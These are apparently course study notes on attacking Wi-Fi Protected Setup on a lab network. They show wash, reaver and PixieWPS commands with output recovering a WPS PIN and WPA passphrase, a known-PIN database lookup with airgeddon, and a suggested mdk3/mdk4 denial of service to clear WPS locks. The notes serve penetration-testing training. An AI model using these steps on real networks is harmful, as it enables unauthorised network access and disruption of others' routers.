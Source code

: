 # Module 9: Attacking WPS Networks

## WPS Technology Details

_Just discussing WPS technology, requirements, etc._

## WPS Vulnerabilities

PIN verification is done in two parts. The first half is checked, then the second half rather than the entire PIN. First half has 10000 possibilities, second half has 1000. A couple tools were developed to attack this, _reaver_ and _bully._ PixieWPS takes advantage of the weak random number generator used in a few chipsets, meaning not all WPS implementations are vulnerable.

## WPS Attack

Using _wash_ to list out APs with WPS:

{% code overflow="wrap" %}
```bash
kali@kali:~$ wash -i wlan0mon
BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
--------------------------------------------------------------------------------
00:0A:D0:97:39:6F    1  -88  2.0  No   Broadcom  linksys
C8:BC:C8:FE:D9:65    2  -28  2.0  No   AtherosC  secnet
34:08:04:09:3D:38    3  -32  1.0  No   RalinkTe  wifu
```
{% endcode %}

WPS version 2 mandated mitigations to prevent brute forcing, which may actually just slow down a brutefroce. Lck indicates if WPS is locked, meaning an attack is pointless.

_wash_ by default scans the 2.4GHz band but can scan 5GHz by using the **-5** option. We can also just use airodump-ng to display WPS information using **--wps**.

Using _reaver_ to attack an AP with WPS:

{% code overflow="wrap" %}
```bash
kali@kali:~$ sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v

Reaver v1.6.6 WiFi Protected Setup Attack Tool                 
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 34:08:04:09:3D:38
[+] Switching wlan0mon to channel 1
[+] Switching wlan0mon to channel 2
[+] Switching wlan0mon to channel 3
[+] Received beacon from 34:08:04:09:3D:38               
[+] Vendor: RalinkTe                                     
[+] Trying pin "12345670"
[+] Associated with 34:08:04:09:3D:38 (ESSID: wifu)
[+] Trying pin "00005678"
[+] Associated with 34:08:04:09:3D:38 (ESSID: wifu)      
[+] Trying pin "01235678"
[+] Associated with 34:08:04:09:3D:38 (ESSID: wifu)
[+] Trying pin "11115670"                                      
[+] Associated with 34:08:04:09:3D:38 (ESSID: wifu)      
[+] Trying pin "22225672"
[+] Associated with 34:08:04:09:3D:38 (ESSID: wifu)
[+] Trying pin "33335674"
[+] Associated with 34:08:04:09:3D:38 (ESSID: wifu)
[+] 0.05% complete @ 1985-10-27 11:00:00 (2 seconds/pin)
...
```
{% endcode %}

If vulnerable to the PixieWPS attack, results will be much quicker:

{% code overflow="wrap" %}
```bash
kali@kali:~$ sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v -K

Reaver v1.6.6 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 34:08:04:09:3D:38
[+] Received beacon from 34:08:04:09:3D:38
[+] Vendor: RalinkTe
[+] Trying pin "12345670"
[+] Associated with 34:08:04:09:3D:38 (ESSID: wifu)
executing pixiewps -e b882382e407e4af64fcf9d71ef8ace569fd453ccafb4d1172eaf2a32defa7b36908dea0a0e55e300d5d853e7289ae8488c785af8928b16575486f1560c6a5720c1665d9d4fcdd987248e3f47fd2a00bf9de2f583f45240db1f4aa619098a81fa5ce3663bc0101509ffbfa68e8647042357de76a21718ce4d1defb9006e7396c80e696d6d7ec03bf7fce08850dfcf2a6730cf47ff274f3a1d3d1eba7570c297bbdd52188ac18a936a092b80632bbbe8ffa468caf2c935dda67a8f70bc24fcedb1 -s ec2fd098686d9fc441784e0c13e311a6e11141898ec863b78e213a89335ce7a9 -z 482cbb8708a1605324bc474f2e8881305f39ec4261521681432c12d8b1c0ff17 -a 34e844d2bae3119498c26f59a6dde7d18b5665a173d1adbb05d1907f3650118b -n f56bdccaa2cf51595e5f5ff9295dd6b1 -r 0495e5f459cd26b325b87f2d36d2e6da2d00cf157a394de126345599376525a1b0669f5483830fb504ce03453a7164c739e0619e4cc4992c9db16b73ae8ccb57c9d14670cefeda188cdb681e1c1549019db64dc27fc8ec305684f437e014ac6288c9e8be8d4b1ea33e074b6b3bd9e1b9c2f233f2996cec17b6bb68af36fdbf92f1783ded438e43bd19ff73b73f11b053ccb44669db37c4549053b99b1ae268c8b1eb38ef105e1c1b845f86a5814b4eee4892bc473b75c59462801918b5512f9f

 Pixiewps 1.4

 [?] Mode:     1 (RT/MT/CL)
 [*] Seed N1:  0xa0092e17
 [*] Seed ES1: 0x00000000
 [*] Seed ES2: 0x00000000
 [*] PSK1:     39768b33293254526142aa2d3d55dbf8
 [*] PSK2:     385c8893197a003fc767af1eebdbdda8
 [*] ES1:      00000000000000000000000000000000
 [*] ES2:      00000000000000000000000000000000
 [+] WPS pin:  96039620

 [*] Time taken: 0 s 17 ms

[+] Pixiewps: success: setting pin to 96039620
[+] WPS PIN: '96039620'
[+] WPA PSK: 'Where we are going, we dont need roads'
[+] AP SSID: 'wifu'
```
{% endcode %}

### Implementation Variations

Checking the first three bytes of the BSSID against known PINs:

{% code overflow="wrap" %}
```bash
kali@kali:~$ sudo apt install airgeddon
...

kali@kali:~$ source /usr/share/airgeddon/known_pins.db

kali@kali:~$ echo ${PINDB["0013F7"]}
14755989 48703970 06017637
```
{% endcode %}

### Overcoming Unexpected Errors

#### WPS Transaction Failure

```
[!] WPS transaction failed (code: 0x03), re-trying last pin
```

* _Could be a temporary failure. Restart reaver without the PixieWPS option._

#### ACK Issues

```
[+] Sending identity response
[+] Received identity request
```

* _The wireless card doesn't acknowledge frames sent by the AP. Use a different wireless card with a different chipset._

#### WPS Lock

* _When WPS is locked, a DoS on the AP can be done via **mdk3** or **mdk4**. This will trigger a reboot a reboot which releases the lock._
